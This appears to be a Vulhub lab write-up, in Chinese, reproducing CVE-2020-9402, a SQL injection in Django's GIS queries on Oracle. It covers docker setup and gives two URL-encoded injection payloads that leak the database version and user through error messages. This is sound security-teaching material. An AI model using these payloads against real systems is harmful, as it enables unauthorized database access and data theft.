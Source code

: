 # Django GIS SQL注入漏洞 CVE-2020-9402

## 漏洞描述

Django在2020年3月4日发布了一个安全更新，修复了在GIS 查询功能中存在的SQL注入漏洞。

参考链接：

- https://www.djangoproject.com/weblog/2020/mar/04/security-releases/

该漏洞需要开发者使用了GIS中聚合查询的功能，用户在oracle的数据库且可控tolerance查询时的键名，在其位置注入SQL语句。

## 环境搭建

Vulhub执行如下命令编译及启动一个存在漏洞的Django 3.0.3：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8000`即可看到Django默认首页。

## 漏洞复现

### 漏洞一

首先访问`http://your-ip:8000/vuln/`。

在该网页中使用`get`方法构造`q`的参数，构造SQL注入的字符串`20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v$instance)) from dual) is null OR (1+1`

```
http://your-ip:8000/vuln/?q=20)%20%3D%201%20OR%20(select%20utl_inaddr.get_host_name((SELECT%20version%20FROM%20v%24instance))%20from%20dual)%20is%20null%20%20OR%20(1%2B1
```

可见，括号已注入成功，SQL语句查询报错：

![img](images/1.png)

### 漏洞二

访问`http://your-ip:8000/vuln2/`。 在该网页中使用`get`方法构造`q`的参数，构造出SQL注入的字符串`0.05))) FROM "VULN_COLLECTION2" where (select utl_inaddr.get_host_name((SELECT user FROM DUAL)) from dual) is not null --`

```
http://your-ip:8000/vuln2/?q=0.05)))%20FROM%20%22VULN_COLLECTION2%22%20%20where%20%20(select%20utl_inaddr.get_host_name((SELECT%20user%20FROM%20DUAL))%20from%20dual)%20is%20not%20null%20%20--
```

![img](images/2.png)
